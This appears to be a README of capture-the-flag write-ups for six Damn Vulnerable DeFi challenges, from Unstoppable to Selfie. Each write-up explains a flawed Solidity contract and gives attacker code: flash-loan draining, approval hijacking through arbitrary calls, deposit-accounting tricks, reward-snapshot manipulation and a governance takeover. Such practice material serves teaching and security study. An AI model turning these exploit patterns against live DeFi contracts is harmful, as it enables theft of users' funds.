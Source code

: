 # Damn-Vulnerable-DeFi-Foundry
## 1. Unstoppable
This is an example of Denial of Service where the line `convertToShares(totalSupply) != balanceBefore` is vulnerable. So, by sending any amount of tokens, that is greater than 0, we could cause Denial of Service
## 2. Naive receiver
In the `function flashLoan()`, the pool initiates a flash loan by transferring ETH to the receiver and allowing it to execute arbitrary logic. However, the `function onFlashLoan()` in the receiver contract doesn't properly validate the caller's identity, allowing anyone to invoke it. By exploiting this vulnerability, an attacker can repeatedly trigger the `function flashLoan()`, draining the receiver's ETH balance by forcing it to pay the fixed fee with each loan. This attack effectively takes all ETH held by the receiver contract, exploiting the lack of proper authorization checks in the `function onFlashLoan()`.
### Solution
```solidity
function attack(IERC3156FlashBorrower receiver, NaiveReceiverLenderPool pool) external {
    for (uint256 i = 0; i < 10; i++) {
        pool.flashLoan(receiver, ETH, 0, "");
    }
}
```
## 3. Truster
In this vulnerable flash loan function, the vulnerability lies in the external code execution through the `target.functionCall(data)` line. While flash loans are designed to provide temporary liquidity, allowing borrowers to execute arbitrary code poses a significant security risk. By accepting a target address and call data as parameters, the function enables the execution of any function on the target contract. This opens the door to potential exploits.
```solidity
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)external nonReentrant returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
```
### Solution
To exploit this vulnerability, we will utilize the `attack` function, which interacts with the `TrusterLenderPool` and `DamnValuableToken` contracts. In this function, we initiate a flash loan by calling `pool.flashLoan(0, address(this), address(token), abi.encodeWithSignature("approve(address,uint256)", address(this), 1000000))`. Here, we request a loan of 0 tokens, specifying our contract as the borrower and the DamnValuableToken contract as the target. The `abi.encodeWithSignature` function prepares the call data with the signature of the `approve` function, allowing us to approve our contract to spend 1000000 tokens from the pool.

Subsequently, we execute `token.transferFrom(address(pool), address(this), 1000000)` to transfer the approved tokens from the pool to our contract. This sequence of actions enables us to exploit the vulnerability.
```solidity
function attack(TrusterLenderPool pool, DamnValuableToken token)external{
        pool.flashLoan(0,address(this), address(token),abi.encodeWithSignature("approve(address,uint256)",address(this),1000000));

        token.transferFrom(address(pool),address(this),1000000);
        }
```
## 4. Side Entrance
The `function flashLoan()` lacks proper verification during loan execution, allowing attackers to exploit a discrepancy between the token balance and the internal accounting system. By depositing borrowed funds back into the contract during the callback phase, attackers can manipulate the accounting system, deceiving the verification process and enabling unauthorized fund withdrawals.
```solidity
function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
```
### Solution
This contract exploits a vulnerability in the `SideEntranceLenderPool` contract by executing a flash loan attack. In the `function attack()`, it initiates a flash loan from the pool with an initial balance of 1000 ether, then immediately withdraws the funds. Additionally, the `function execute()` allows the attacker to deposit any received funds back into the pool, further manipulating its balance. Finally, the contract includes a `function receive()` to accept incoming Ether payments.
```solidity
function attack()external{
        pool.flashLoan(INITIAL_BALANCE_POOL);
        pool.withdraw();
    }

function execute()external payable{
        pool.deposit{value: msg.value}();
    }
```
## 5. The Rewarder
The vulnerability lies in the mechanism of distributing rewards in `TheRewarderPool` contract. Specifically, the distribution of rewards depends on a single snapshot in time rather than continuous or aggregated data points. This makes the system susceptible to manipulation through flash loans.
```solidity
 function distributeRewards() public returns (uint256 rewards) {
        if (isNewRewardsRound()) {
            _recordSnapshot();
        }

        uint256 totalDeposits = accountingToken.totalSupplyAt(lastSnapshotIdForRewards);
        uint256 amountDeposited = accountingToken.balanceOfAt(msg.sender, lastSnapshotIdForRewards);

        if (amountDeposited > 0 && totalDeposits > 0) {
            rewards = amountDeposited.mulDiv(REWARDS, totalDeposits);
            if (rewards > 0 && !_hasRetrievedReward(msg.sender)) {
                rewardToken.mint(msg.sender, rewards);
                lastRewardTimestamps[msg.sender] = uint64(block.timestamp);
            }
        }
    }
```
### Solution
We utilize the `skip function` in Foundry to bypass the 5-day cooldown period, allowing us to do the attack process.
To exploit this vulnerability, we aim to claim the most rewards in the upcoming round by manipulating the snapshot mechanism. By taking a significant flash loan and approving and than depositing liquidity, we can create a snapshot of the current balances state. After that, we can withdraw the deposited tokens and transfer them to `TheFlashLoanerPool` to complete the flash loan.
```solidity
 function attack()external{
        flashPool.flashLoan(liquidityToken.balanceOf(address(flashPool)));
    }

    function receiveFlashLoan(uint256 amount)external{
        liquidityToken.approve(address(rewarderPool), amount);
        rewarderPool.deposit(amount);
        rewarderPool.distributeRewards();
        rewarderPool.withdraw(amount);

        liquidityToken.transfer(address(flashPool), amount);
    }
```
## 6. Selfie
The vulnerability lies in the `SimpleGovernance` contract's mechanism for queuing actions based on the number of votes rather than any additional security checks. This means that any user with sufficient voting power can queue an action within the `SimpleGovernance` contract, regardless of their intentions or the potential impact on the system. Specifically, critical functions like function `emergencyExit()` can be called, leaving the contract vulnerable to fund drains.
```solidity
 function emergencyExit(address receiver) external onlyGovernance {
        uint256 amount = token.balanceOf(address(this));
        token.transfer(receiver, amount);

        emit FundsDrained(receiver, amount);
    }
```
### Solution
To exploit this vulnerability, we utilize the flash loan feature provided by the `SelfiePool` contract to borrow a significant amount of governance tokens (`function attack1()`). These tokens grant us the necessary voting power to queue an action within the `SimpleGovernance` contract. Once the action is queued, it remains in a pending state for 2 days (`function attack2()`), after that time it can be executed. This allows us to do harmful actions within the governance system, such as draining funds.
```solidity
 function attack1()external{

        pool.flashLoan(IERC3156FlashBorrower(address(this)), address(token), INITIAL_SUPPLY_POOL, abi.encodeWithSignature("emergencyExit(address)", address(this)));
    
    }

    function attack2()external{

        governance.executeAction(actionID);
    
    }

    function onFlashLoan(address _address,address _token, uint256 _value, uint256 zero, bytes memory data)external returns(bytes32){
        
        token.snapshot();
        token.approve(address(pool), _value);

        actionID= governance.queueAction(address(pool), uint128(zero), data);

        return CALLBACK_SUCCESS;
    }
```